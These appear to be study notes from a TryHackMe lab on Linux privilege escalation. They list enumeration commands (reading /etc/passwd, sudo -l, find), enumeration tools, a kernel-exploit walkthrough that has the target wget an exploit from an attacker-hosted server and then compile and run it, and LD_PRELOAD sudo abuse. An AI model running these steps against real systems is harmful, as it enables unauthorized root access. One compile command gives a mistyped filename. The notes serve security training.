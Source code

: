 # Room
https://tryhackme.com/room/linprivesc

# Task 1 - Intro
Intro

# Task 2 - What is privilege escalation
* privilege escalation involves moving from a lower permission account to a higher permission account
* privilege escalation is the exploitation of a design flaw to gain unauthorized access

# Task 3 - enumeration
* post system access, you'll need to enumerate the machine to figure out if there is any opportunity for privilege escalation
* useful commands to gain info on a system you have access to - these are Linux related
    * hostname - print hostname
    * uname -a - print kernel details
    * cat /proc/version - provides kenerl and process details
    * cat /etc/issue - contains info abuot the OS
    * ps - list system processes
        * ps -A - view all running procs
        * ps axjf - view process tree
        * ps aux - view procs for all users
    * env - view environment variables
    * sudo -l - list the current users sudo privileges
    * ls - list files
    * id - list the uid, gid, and groups that the current user belongs to
    * cat /etc/passwd - a list of users and services on the machine
    * history - view the command history of the current user
    * ifconfig - view network interface configuration
    * ip route - list assigned/configured network routes
    * netstat - list listening and established connections to the machine
        * netstat -at - list IPv4/IPv6 TCP connections
        * netstat -au - list IPv4/IPv6 UDP connections
        * netstat -l - list all listening services
        * netstat -s, netstat -st, netstat -su - list stats for the network, tcp only, udp only
        * netstat -i - show interface stats
    * find - find things on the system
        * find . -name flag1.txt - find the thing named flag1.txt in the current directory
        * find /home -name flag1.txt - find the thing named flag1.txt in the /home directory
        * find / -type d -name config - find the directory named config in the root
        * find / type f -perm 0777 - find files with permissions set to 0777
        * find / -perm a=x - find executable things
        * find /home -user frank - find things that frank owns in the home directory
        * find / -mtime 10 - find things modified in the last 10 days
        * find / -atime 10 - find things that were accessed in the last 10 days
        * find / -cmin -60 - find things changed in the last hour
        * find / -amin -60 - find things accessed in the last hour
        * find / -size 50M - find things with a 50 meg file size
            * you can also use + or - for sizings to find things less than or larger than what you are searching for
        * to avoid all the permissions spam redirect your find commands to null
            * 2> /dev/null

# Task 4 - automated enumeration tools
* a few automated tools
    * https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
    * https://github.com/rebootuser/LinEnum
    * https://github.com/mzet-/linux-exploit-suggester
    * https://github.com/diego-treitos/linux-smart-enumeration
    * https://github.com/linted/linuxprivchecker

# Task 5 - privilege escalation - kernel exploits
* manually exploit a kernel vulnerability
    * connect to the machine using the creds provided
    * recon
        * target: uname -a
    * since we already know this is a kernel vulnerability, search google for the exploit
        * 3.13.0-24-generic exploit
        * https://www.exploit-db.com/exploits/37292
    * Kali has a preconfigured exploit on the attack box, host it up and transfer it to the target
        * attacker: searchsploit -m 37292 .
        * attacker: python -m http.server 9393
        * target: cd /tmp
        * target: wget http://10.10.10.10:9393/37292.c
        * target: gcc 37282.c -o e
        * target: chmod +x e
        * target: ./e
        * target: whoami

# Task 6 - privilege escalation - sudo
* sudo allows you to run a program with root privileges
* to list what programs you can use with sudo, type sudo -l
* you can perform privilege escalation with a number of commands that have been enabled for you with sudo
    * https://gtfobins.github.io/
* LD_PRELOAD is a function that allows any program to use shared libraries
* some systems may have the LD_PRELOAD environment option enabled, if so you can exploit that
* LD_PRELOAD exploitation works as follows
    * check for the LD_PRELOAD option with env_keep - sudo -l
    * write a simple c script and compile it as a shared object file, .so extension
    * run the shared object file along with your sudo enabled command
        * sudo LD_PRELOAD=/tmp/example.so find